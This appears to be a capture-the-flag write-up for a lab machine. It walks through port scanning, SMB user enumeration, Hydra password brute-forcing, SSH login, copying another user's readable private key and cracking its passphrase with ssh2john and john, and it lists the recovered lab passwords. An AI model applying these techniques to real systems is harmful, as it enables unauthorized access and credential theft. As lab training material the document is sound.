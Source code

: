 # Basic Pen-Testing  Room Writeup
Target Ip Address
```
10.10.142.239
```
## Nmap Scan Report
```
Open Ports and services
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```
So there is lots of open Ports so we can enumerate one by one some of these are use to gain initial foothold.

### Web server Enumeration


### Hidden Directory Scan 
```
/development
```
this hidden directory have some text that give us clue about that there are two users one name start with j and other users name start with k and also thwy give us clue one
of the user have weak password.

## SMB Enumeration

Using nmap smb enumeration scripts we found this Smb user shares 
```
| smb-enum-shares: 
|   account_used: guest
|   \10.10.142.239\Anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \10.10.142.239\IPC$: 
|     Type: STYPE_IPCHIDDEN
|     Comment: IPC Service (Samba Server 4.3.11-Ubuntu)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|    Current user access: READ/WRITE
```
Above Result shows that we have guest user share with anonymouse access.

by Enumerating the smb with nmap smb-users-enum script or metasploit module or some other tecniques we found these valid users.

Using Smb we found Two user 
1) Jan 
2) kay

Now we have valid users so we can use bruteforcing to try to get these users ssh password as they have ssh service open.
In the web server enumeration stage we know one of them have weak password so we can use hydira to bruteforce the user jan to get there password

## Hydira Brutefor Result 
Using Brute force we found valid user password
userName: `jan`
password: `armando`

Now we have jan user password so we ssh to the machine to get the foothold using command 
```
$ ssh jan@10.10.142.239
password armando
```
Now we have the initial access to the system so now we use the other post exploitaion tecniques to get more privileges.
we can use linpeas script to find privilege esclation vectors.
`linpease` show that kay user have ssh private key with the read permission so we can read it and copy all the content of that key to our attacking machine
change the permission of that key only you can read it with the command 
```
$ chmod -600 kay_rsa
```
this will change the permission of the key read/write only for you so now you can ssh to kay user with that key using command
```
$ ssh -i kay_rsa kay@10.10.142.239
```
this will command is use to ssh to that target with private key
Ohh so this key is protected by password so now we have to dig that password also to get ssh to the target
so diging the password we can use sshtojohn script for getting that private key password.
```
$ python ssh2john.py kay_rsa > kay_rsa.hash
```
this will create the hash file of the key and store it to the kay_rsa.hash file
now we use john to crack the hash or to get the password
```
$ john kay_rsa.hash --wordlist=rockyou.txt
```
this will crack the password using the wordlist rockyou.txt

Using Bruteforce with john we found user 2 ssh key password

UserName: `kay`
Password: `beeswax`

so now we have the key password so we can use it to get access to the kay user
```
$ ssh -i kay_rsa kay@10.10.142.239
password beeswax
```
And this is the final password we found after successfully login

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
